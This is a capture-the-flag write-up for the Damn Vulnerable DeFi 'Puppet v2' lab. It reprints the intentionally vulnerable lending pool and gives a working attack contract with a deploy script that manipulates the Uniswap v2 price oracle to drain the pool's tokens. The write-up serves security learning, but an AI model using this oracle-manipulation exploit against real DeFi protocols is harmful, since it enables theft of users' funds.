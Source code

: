 <img src="https://github.com/wasny0ps/Damn-Vulnerable-DeFi/blob/main/src/9.png">

# Target Contract Review

Given contract.

**PuppetV2Pool.sol**

```solidity
// SPDX-License-Identifier: MIT
pragma solidity ^0.6.0;

import "@uniswap/v2-periphery/contracts/libraries/UniswapV2Library.sol";
import "@uniswap/v2-periphery/contracts/libraries/SafeMath.sol";

interface IERC20 {
    function transfer(address to, uint256 amount) external returns (bool);
    function transferFrom(address from, address to, uint256 amount) external returns (bool);
    function balanceOf(address account) external returns (uint256);
}

/**
 * @title PuppetV2Pool
 * @author Damn Vulnerable DeFi (https://damnvulnerabledefi.xyz)
 */
contract PuppetV2Pool {
    using SafeMath for uint256;

    address private _uniswapPair;
    address private _uniswapFactory;
    IERC20 private _token;
    IERC20 private _weth;

    mapping(address => uint256) public deposits;

    event Borrowed(address indexed borrower, uint256 depositRequired, uint256 borrowAmount, uint256 timestamp);

    constructor(address wethAddress, address tokenAddress, address uniswapPairAddress, address uniswapFactoryAddress)
        public
    {
        _weth = IERC20(wethAddress);
        _token = IERC20(tokenAddress);
        _uniswapPair = uniswapPairAddress;
        _uniswapFactory = uniswapFactoryAddress;
    }

    /**
     * @notice Allows borrowing tokens by first depositing three times their value in WETH
     *         Sender must have approved enough WETH in advance.
     *         Calculations assume that WETH and borrowed token have same amount of decimals.
     */
    function borrow(uint256 borrowAmount) external {
        // Calculate how much WETH the user must deposit
        uint256 amount = calculateDepositOfWETHRequired(borrowAmount);

        // Take the WETH
        _weth.transferFrom(msg.sender, address(this), amount);

        // internal accounting
        deposits[msg.sender] += amount;

        require(_token.transfer(msg.sender, borrowAmount), "Transfer failed");

        emit Borrowed(msg.sender, amount, borrowAmount, block.timestamp);
    }

    function calculateDepositOfWETHRequired(uint256 tokenAmount) public view returns (uint256) {
        uint256 depositFactor = 3;
        return _getOracleQuote(tokenAmount).mul(depositFactor) / (1 ether);
    }

    // Fetch the price from Uniswap v2 using the official libraries
    function _getOracleQuote(uint256 amount) private view returns (uint256) {
        (uint256 reservesWETH, uint256 reservesToken) =
            UniswapV2Library.getReserves(_uniswapFactory, address(_weth), address(_token));
        return UniswapV2Library.quote(amount.mul(10 ** 18), reservesToken, reservesWETH);
    }
}
```
The `PuppetV2Pool` contract is a smart contract that allows users to borrow tokens by **depositing three times the value in WETH (Wrapped Ether)**.

**The contract uses the Uniswap v2 protocol to calculate the required amount of WETH to be deposited based on the desired borrow amount. The contract assumes that WETH and the borrowed token have the same amount of decimals.**

`borrow()` : Allows users to borrow tokens by first depositing three times the value in WETH. The function transfers the required amount of WETH from the sender to the contract and updates the internal accounting of deposits. It then transfers the borrowed tokens from the contract to the sender.

`calculateDepositOfWETHRequired()` : Calculates the amount of WETH required to be deposited based on the desired token amount. It uses the Uniswap v2 library to fetch the reserves of WETH and the borrowed token from the Uniswap pair and calculates the quote using the reserves.

`_getOracleQuote()` : Fetches the price from Uniswap v2 using the official UniswapV2Library. It retrieves the reserves of WETH and the borrowed token from the Uniswap pair and calculates the quote for the given amount.


Challenge's message:

> The developers of the previous pool seem to have learned the lesson. And released a new version!
Now they’re using a Uniswap v2 exchange as a price oracle, along with the recommended utility libraries. That should be enough.
You start with 20 ETH and 10000 DVT tokens in balance. The pool has a million DVT tokens in balance. You know what to do.

# Subverting

```solidity
// SPDX-License-Identifier: MIT
pragma solidity ^0.6.0;

import "@uniswap/v2-periphery/contracts/libraries/UniswapV2Library.sol";
import "@uniswap/v2-periphery/contracts/libraries/SafeMath.sol";
import "@uniswap/v2-periphery/contracts/interfaces/IUniswapV2Router02.sol";
interface IERC20 {
    function transfer(address to, uint256 amount) external returns (bool);

    function transferFrom(
        address from,
        address to,
        uint256 amount
    ) external returns (bool);

    function balanceOf(address account) external returns (uint256);

    function approve(address spender, uint256 amount) external returns (bool);

    function deposit() external payable;
}

interface IPuppetV2Pool{
     function borrow(uint256 borrowAmount) external ;
}

contract AttackPuppetV2 {
    using SafeMath for uint256;

    IPuppetV2Pool  pool;
    IERC20  token;
    IERC20  weth;
    IUniswapV2Router02  uniswap;

    constructor(address _pool,address _weth,address _token,address _uniswap) public {
        pool = IPuppetV2Pool(_pool);
        weth = IERC20(_weth);
        token = IERC20(_token);
        uniswap = IUniswapV2Router02(_uniswap);
    }

    function attack() public payable {
        uint256 tokenAmount = token.balanceOf(address(this));
        token.approve(address(uniswap), tokenAmount);
        address[] memory path = new address[](2);
        path[0] = address(token);
        path[1] = address(weth);
        uniswap.swapExactTokensForETH(tokenAmount,1,path,address(this),uint256(block.timestamp *2));
        weth.deposit{value: address(this).balance}();
        uint256 ethAmount = weth.balanceOf(address(this));
        weth.approve(address(pool), ethAmount);
        uint256 poolTokenAmount = token.balanceOf(address(pool));
        pool.borrow(poolTokenAmount);
        uint256 borrowTokenAmount = token.balanceOf(address(this));
        token.transfer(msg.sender, borrowTokenAmount);
    }

    receive() external payable {}
}
```

```js
const attackFoctory = await ethers.getContractFactory("AttackPuppetV2", player);
const attack = await attackFoctory.deploy(lendingPool.address,weth.address,token.address,uniswapRouter.address);
await token.connect(player).transfer(attack.address, PLAYER_INITIAL_TOKEN_BALANCE);
await attack.connect(player).attack({value: PLAYER_INITIAL_ETH_BALANCE - 1n * 10n ** 17n});
```

Solve the challenge.

```powershell

  [Challenge] Puppet v2
    ✔ Execution (88ms)


  1 passing (2s)

Done in 3.50s.
```

**_by wasny0ps_**

